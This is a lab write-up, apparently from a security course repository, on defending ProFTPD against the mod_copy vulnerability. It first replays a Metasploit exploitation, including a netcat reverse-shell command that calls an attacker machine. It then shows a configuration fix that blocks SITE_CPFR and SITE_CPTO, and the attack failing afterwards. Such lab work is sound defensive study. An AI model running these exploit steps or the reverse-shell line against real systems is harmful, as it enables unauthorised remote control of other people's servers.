


# 📃 Phase 3: Defensive Strategy

---

## 🛡️ 3.1 Before Defense - Successful Exploitation (Reference from Phase 1)

**Summary:**
- The attacker successfully compromised the victim using the `ProFTPD mod_copy` vulnerability.
- Reverse shell was obtained via Netcat listener.

### Step 1: Scan Victim with Nmap
```bash
nmap -sV 10.0.2.15
```


### Step 2: Launch Metasploit
```bash
msfconsole
```


### Step 3: Search for mod_copy Module
```bash
search mod_copy
```


### Step 4: Select the Exploit
```bash
use exploit/unix/ftp/proftpd_modcopy_exec
```


### Step 5: Show Options
```bash
show options
```


### Step 6: Set Target IP and Path
```bash
set RHOSTS 10.0.2.15
set SITEPATH /var/www/html
```


### Step 7: Set Payload
```bash
show payloads
```

```bash
set payload 5
```


### Step 8: Verify Options
```bash
show payload options
```


### Step 9: Set CMD for Reverse Shell
```bash
set CMD /tmp/mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.2.6 4444 > /tmp/f
```


### Step 10: Allow No Cleanup
```bash
set AllowNoCleanup true
```


### Step 11: Start Netcat Listener
```bash
nc -lnvp 4444
```


### Step 12: Run Exploit
```bash
run
```


### Step 13: Verify Shell Access
```bash
whoami
```


---

## 🔧 3.2 Defensive Action - Secure ProFTPD Configuration

### Step 1: Edit ProFTPD Configuration
```bash
sudo nano /opt/proftpd/etc/proftpd.conf
```


### Step 2: Scroll to Bottom


### Step 3: Add DenyAll Blocks
```apache
<Limit SITE_CPFR>
  DenyAll
</Limit>
<Limit SITE_CPTO>
  DenyAll
</Limit>
```


### Step 4: Save Changes


### Step 5: Restart ProFTPD
```bash
sudo service proftpd restart
```


---

## 🧪 3.3 After Defense - Attack Attempt Fails

### Step 1: Re-scan Victim
```bash
nmap -sV 10.0.2.15
```


### Step 2: Relaunch Metasploit
```bash
msfconsole
```


### Step 3: Search mod_copy Again
```bash
search mod_copy
```


### Step 4: Set RHOSTS and SITEPATH Again
```bash
set RHOSTS 10.0.2.15
set SITEPATH /var/www/html
```


### Step 5: Attempt Payload Setup (Fails)
```bash
set CMD /tmp/mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.2.6 4444 > /tmp/f
set AllowNoCleanup true
```


### Step 6: Start Netcat Listener Again
```bash
nc -lnvp 4444
```


### Step 7: Run Exploit Again
```bash
run
```


### Step 8: Confirm No Shell
```bash
whoami
```


---

# ✅ Conclusion

| Step | Status |
|:----|:------|
| Exploit before defense | ✅ Successful |
| Defense implemented | ✅ Successful |
| Exploit after defense | ❌ Failed (Defense works) |

- The ProFTPD service is now secure against `mod_copy` attacks.

---
